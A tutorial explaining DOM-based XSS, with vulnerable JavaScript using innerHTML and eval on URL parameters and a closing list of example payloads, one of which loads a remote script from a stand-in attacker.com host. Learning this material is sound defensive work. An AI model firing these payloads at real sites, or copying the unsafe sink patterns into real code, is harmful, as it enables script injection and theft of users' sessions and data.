 In a **DOM-based XSS attack**, the injected script does not come from the server’s response (like reflected or stored XSS). Instead, the malicious code is embedded in the URL or another part of the client-side input, and JavaScript running on the page dynamically processes this data and performs unsafe DOM manipulation. This type of attack can allow an attacker to execute arbitrary JavaScript within the victim's browser, leading to the compromise of sensitive data.

---

## How Does DOM-based XSS Work?

1. **User Input**: The attacker crafts a malicious URL or modifies an existing URL to include the malicious JavaScript payload (e.g., through query parameters, hashes, or other client-side input sources).
2. **Client-Side Execution**: When the user clicks the malicious link, the client-side JavaScript (running in the victim's browser) processes the input and directly manipulates the DOM without proper sanitization or escaping of the malicious code.
3. **Script Execution**: The injected payload is executed in the victim’s browser, often leading to data theft (like cookies), session hijacking, or other malicious behavior.

#### Examples

###### innerHTML
Consider a website that has a JavaScript function that uses user input directly from the URL query parameters to display content dynamically.

For example, the site may take the `name` parameter from the URL and display it on the page:

```javascript
// Example of vulnerable client-side code
let name = new URLSearchParams(window.location.search).get('name');
document.getElementById('greeting').innerHTML = 'Hello, ' + name;
```

**Malicious URL**
An attacker could craft a URL like this:
```jaavascript
http://example.com/?name=<script>alert('DOM-based XSS')</script>
```

When the victim clicks the link, the JavaScript code directly places the content from the `name` parameter into the HTML without any sanitization. As a result, the malicious script is executed, and an alert is shown with the message "DOM-based XSS."

###### eval
Imagine a website that lets users perform quick calculations directly through the URL. The developer might use `eval()` to evaluate math expressions:

```javascript
let expression = new URLSearchParams(window.location.search).get('calc');
let result = eval(expression);
alert('Result: ' + result);
```

If the user visits:

```
http://example.com/?calc=2+3*4
```

The site shows an alert with the result: `Result: 14`.

However, an attacker could abuse this by injecting malicious code:

```
http://example.com/?calc=alert('XSS')
```

This would trigger a popup saying "**XSS**".

---

## Common JavaScript Functions Vulnerable to DOM-based XSS

- `innerHTML`
- `document.write()`
- `eval()`
- `setTimeout()` or `setInterval()`
- `location.hash`
- `document.referrer`

---

## Example Payloads for DOM-based XSS

Here are some common payloads that could be used in DOM-based XSS attacks:

1. **Injection via URL parameters**:
```html
http://example.com/?param=<script>alert('XSS')</script>
```

2. **DOM Manipulation via `innerHTML`**:
```html
<img src="invalid" onerror="alert('XSS')">
```

3. **Cross-Domain Script Inclusion**:
```html
<script>
  var script = document.createElement('script');
  script.src = 'http://attacker.com/malicious.js';
  document.body.appendChild(script);
</script>
```